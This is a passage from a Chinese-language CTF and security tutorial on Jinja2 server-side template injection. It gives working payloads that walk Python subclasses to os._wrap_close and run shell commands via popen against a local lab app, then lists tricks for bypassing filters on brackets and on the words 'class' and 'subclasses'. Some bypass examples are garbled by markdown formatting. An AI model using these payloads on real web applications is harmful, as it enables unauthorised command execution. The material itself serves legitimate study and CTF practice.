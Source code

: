 接下来就是我们需要找到合适的类，然后从合适的类中寻找我们需要的方法。这里开始我们不再用 pycharm 打印了，直接利用上面我们已经搭建好的漏洞环境来进行测试。通过我们在如上这么多类中一个一个查找，找到我们可利用的类，这里举例一种。<class 'os._wrap_close'>，os 命令相信你看到就感觉很亲切。我们正是要从这个类中寻找我们可利用的方法，通过大概猜测找到是第 119 个类，0 也对应一个类，所以这里写 [118]。

```
http://127.0.0.1:5000/test?{{"".__class__.__bases__[0].__subclasses__()[118]}}
```

[![](https://xzfile.aliyuncs.com/media/upload/picture/20181221165419-00ba8130-04fe-1.jpg)](https://xzfile.aliyuncs.com/media/upload/picture/20181221165419-00ba8130-04fe-1.jpg)

这个时候我们便可以利用.**init**.**globals** 来找 os 类下的，init 初始化类，然后 globals 全局来查找所有的方法及变量及参数。

```
http://127.0.0.1:5000/test?{{"".__class__.__bases__[0].__subclasses__()[118].__init__.__globals__}}
```

此时我们可以在网页上看到各种各样的参数方法函数。我们找其中一个可利用的 function popen，在 python2 中可找 file 读取文件，很多可利用方法，详情可百度了解下。

```
http://127.0.0.1:5000/test?{{"".__class__.__bases__[0].__subclasses__()[118].__init__.__globals__['popen']('dir').read()}}
```

[![](https://xzfile.aliyuncs.com/media/upload/picture/20181221165452-14c6bd56-04fe-1.jpg)](https://xzfile.aliyuncs.com/media/upload/picture/20181221165452-14c6bd56-04fe-1.jpg)

此时便可以看到命令已经执行。如果是在 linux 系统下便可以执行其他命令。此时我们已经成功得到权限。进下来我们将进一步简单讨论如何进行沙箱逃逸。

ctf 中的一些绕过 tips
---------------

没什么系统思路。就是不断挖掘类研究官方文档以及各种能够利用的姿势。这里从最简单的绕过说起。

1. 过滤 [] 等括号

使用 gititem 绕过。如原 poc {{"".**class**.**bases**[0]}}

绕过后 {{"".**class**.**bases**.**getitem**(0)}}

2. 过滤了 subclasses，拼凑法

原 poc{{"".**class**.**bases**[0].**subclasses**()}}

绕过 {{"".**class**.**bases**[0]'**subcla'+'sses**'}}

3. 过滤 class

使用 session

poc {{session['**cla'+'ss**'].**bases**[0].**bases**[0].**bases**[0].**bases**[0].**subclasses**()[118]}}

多个 bases[0] 是因为一直在向上找 object 类。使用 mro 就会很方便

```
{{session['__cla'+'ss__'].__mro__[12]}}
```

或者

```
request['__cl'+'ass__'].__mro__[12]}}
```
